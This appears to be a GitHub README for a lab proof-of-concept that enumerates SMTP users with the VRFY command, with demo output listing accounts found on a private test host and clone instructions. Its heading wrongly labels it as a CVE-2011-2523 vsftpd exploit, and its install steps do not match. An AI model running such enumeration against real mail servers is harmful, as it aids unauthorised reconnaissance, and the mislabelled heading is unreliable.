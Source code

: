 # CVE-2011-2523 - vsftpd_2_3_4_exploit

This is a POC for enumerating users from a SMTP server using SMTP Commands

## Demo

PS D:\NodeJS\smtp-enum> node .\smtp-enum-vrfy.js
```
[*] Server: 192.168.31.129:25
[*] Mode: VRFY
[*] Verbose Output: false  
[*] File: usernames.txt    
[*] SMTP VRFY Check Started
--[+] User:bin exists
--[+] User:daemon exists
--[+] User:ftp exists  
--[+] User:games exists
--[+] User:lp exists  
--[+] User:mail exists
--[+] User:man exists  
--[+] User:mysql exists
--[+] User:news exists
--[+] User:nobody exists
--[+] User:postfix exists   
--[+] User:postgres exists  
--[+] User:postmaster exists
--[+] User:root exists
--[+] User:sshd exists
--[+] User:sync exists
--[+] User:user exists
--[+] User:uucp exists
[*] SMTP VRFY Check Complete
```

#Installation

git clone https://github.com/ThePenClicker/MetasploitableSolutions.git

cd MetasploitableSolutions/smtp-enum-vrfy.js

node index.js